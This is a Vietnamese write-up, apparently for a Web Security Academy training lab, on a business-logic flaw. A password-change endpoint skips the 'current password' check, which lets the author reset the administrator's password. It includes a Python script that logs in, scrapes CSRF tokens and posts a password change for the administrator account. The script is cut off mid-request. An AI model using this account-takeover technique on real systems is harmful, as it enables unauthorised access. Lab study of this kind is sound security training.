 vậy là ở front-end server, các tham số này đều mang tính bắt buộc, nhưng chúng ta có thể bỏ đi một vài tham số tại back-end server do bên backend đã tin tưởng với validate ở frontend và ở phần logic xử lý backend xử lý không đúng với `current password`

![image](https://hackmd.io/_uploads/Bkughrm2T.png)

mình đổi lại mật khẩu của admin là 123 và giwof chúng ta có thể đăng nhập tài khoản **administrator:123** và xóa người dùng carlos

![image](https://hackmd.io/_uploads/SJ5ShSmh6.png)

mình đã viết script khai thác

```python!
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

session = requests.Session()
url = 'https://0a85007603d8768180763f2700cb002a.web-security-academy.net'

response = session.get(url + '/login')

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data = {
    'csrf': csrf,
    'username': 'wiener',
    'password': 'peter',
}

response = session.post(
    url + '/login',
    data=data,
    verify=False,
    allow_redirects=False,
)

response = session.get(
    url + '/my-account',
    verify=False,
)

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data = {
    'csrf': csrf,
    'username': 'administrator',
    'new-password-1':'peter',
    'new-password-2':'peter',
}

response = session.post(
    url + '/my-account/change-password',
    data=data,
    verify=False,
)

response = session.get(
```